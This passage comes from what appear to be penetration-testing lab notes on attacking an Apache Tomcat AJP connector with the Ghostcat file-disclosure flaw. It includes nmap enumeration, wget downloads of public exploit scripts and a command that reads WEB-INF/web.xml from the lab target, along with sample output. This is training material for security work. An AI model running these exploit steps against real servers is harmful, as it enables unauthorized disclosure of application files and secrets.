 ```bash
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds

# Advanced AJP enumeration
nmap --script ajp-* -p 8009 app-dev.inlanefreight.local

# AJP connection testing
telnet app-dev.inlanefreight.local 8009
```

#### AJP Protocol Analysis
```bash
# AJP (Apache Jserv Protocol) characteristics:
# - Binary protocol for proxying requests
# - Typically used between Apache HTTP and Tomcat
# - Default port 8009/tcp
# - Protocol versions: AJP12, AJP13 (most common)
# - Used for load balancing and SSL termination

# Common AJP configurations:
# <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
# <Connector port="8009" protocol="AJP/1.3" secretRequired="false" />
```

### Ghostcat Exploitation Methodology

#### Python Exploit Script Deployment
```bash
# Download Ghostcat PoC exploit
wget https://raw.githubusercontent.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/master/tomcat-ajp-lfi.py

# Alternative download location
wget https://github.com/00theway/Ghostcat-CNVD-2020-10487/raw/master/ajpShooter.py

# Make script executable
chmod +x tomcat-ajp-lfi.py

# Script requirements (Python 2.7)
python2.7 --version
# Python 2.7.x required for compatibility
```

#### File Disclosure Exploitation
```bash
# Basic web.xml disclosure
python2.7 tomcat-ajp-lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml

# Expected output:
Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
```
